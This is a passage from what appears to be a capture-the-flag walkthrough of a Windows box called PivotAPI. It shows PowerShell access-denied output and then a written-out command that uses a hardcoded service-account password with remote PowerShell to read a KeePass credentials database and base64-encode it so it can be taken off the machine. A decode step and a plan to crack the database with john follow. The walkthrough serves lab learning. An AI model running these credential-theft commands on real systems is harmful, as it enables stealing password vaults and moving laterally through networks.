 ```ruby
   edAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
    + PSComputerName        : PivotAPI
 
Acceso denegado a la ruta de acceso 'C:\Users\svc_mssql\Plantillas'.
    + CategoryInfo          : PermissionDenied: (C:\Users\svc_mssql\Plantillas:String) [Get-ChildItem], UnauthorizedAc 
   cessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
    + PSComputerName        : PivotAPI
 
Acceso denegado a la ruta de acceso 'C:\Users\svc_mssql\Reciente'.
    + CategoryInfo          : PermissionDenied: (C:\Users\svc_mssql\Reciente:String) [Get-ChildItem], UnauthorizedAcce 
   ssException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
    + PSComputerName        : PivotAPI
 
Acceso denegado a la ruta de acceso 'C:\Users\svc_mssql\SendTo'.
    + CategoryInfo          : PermissionDenied: (C:\Users\svc_mssql\SendTo:String) [Get-ChildItem], UnauthorizedAccess 
   Exception
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand


```

> **cool output, there is file in the desktop called `credentials.kdbx`, and this a data file created by `KeePass` and it's refers to `KeePass Password Database`.**

> **we can download this file to our machine by converting it's data to b64 and then save it in `.b64` file and then decode it by `base64` to recover it to the original one.**

> **`powershell.exe -command "$password = ConvertTo-SecureString '#mssql_s3rV1c3!2020' -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential ('LICORDEBELLOTA\svc_mssql', $password); Invoke-Command -Credential $credential -ComputerName PivotAPI -ScriptBlock {$file = 'c:\users\svc_mssql\Desktop\credentials.kdbx'; $Base64_Code = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("$file")); $Base64_Code;}"`**

![](https://i.ibb.co/DGvWhpv/b64kee.png)

> **copy the content and save it to file called `any.b64` and then decode.**

> **`base64 -d Creds.64 > credentials.kdbx`**

![](https://i.ibb.co/9scC16n/credens.png)

> **now we will crack this file with `john`.**


[pivotAPI]: PS C:\> cd .\Developers\
[pivotAPI]: PS C:\Developers> ls
[pivotAPI]: PS C:\Developers> cd jari
[pivotAPI]: PS C:\Developers\jari> ls